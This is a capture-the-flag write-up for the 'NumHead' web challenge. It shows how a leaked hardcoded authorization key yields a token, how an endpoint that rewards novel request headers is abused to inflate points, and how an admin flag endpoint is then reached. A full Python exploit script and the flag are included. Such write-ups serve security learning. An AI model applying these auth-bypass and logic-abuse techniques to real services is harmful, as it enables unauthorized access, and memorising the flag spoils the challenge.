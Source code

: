 # NumHead

## Task

[NumHead.zip](https://imaginaryctf.org/r/BF80-NumHead.zip)

## Solution

We are given the code to the full api, so
we just script a little bit of the interactions.

First we need to log in, we do that by using
the `/api/user/new_token` with an Authorization header
containing `0nlyL33tHax0rsAll0w3d` (Set in the config.py file).

so we get our token by doing

`uid = s.post(f"{base}/api/user/new-token", headers={"Authorization": "0nlyL33tHax0rsAll0w3d"}).json()["id"]`


afterwards we need to get to 1000 points. We could play the game...
Or we could just use the `/api/user/nothing-here` endpoint which just
checks if you have new headers in your request. We can modify those
headers quite easily by just adding a new element to a dict in python
and sending that. So we just do that 10 times to get a total of 1000 points
and then call the `/api/admin/flag` endpoint to get the flag

Full Solve script:
```python
from requests import Session
from time import sleep

s = Session()

base = "http://localhost:8080"
base = "https://numhead.chal.imaginaryctf.org"

def get_points():
    sleep(1)
    return s.get(f"{base}/api/user/points", headers={"Authorization": uid}).text

uid = s.post(f"{base}/api/user/new-token", headers={"Authorization": "0nlyL33tHax0rsAll0w3d"}).json()["id"]
print(get_points())
headers = {"Authorization": uid}
for i in range(10):
    headers[f"kek{i}"] = "kek"
    sleep(1)
    x = s.post(f"{base}/api/user/nothing-here", headers=headers)
    print(x.text)
print(get_points())
sleep(1)
x = s.get(f"{base}/api/admin/flag", headers={"Authorization": uid})
print(x.text)
```

I had to put in some sleeps due to rate limiting.

`ictf{b3aT_tH3_g@Me_???}`

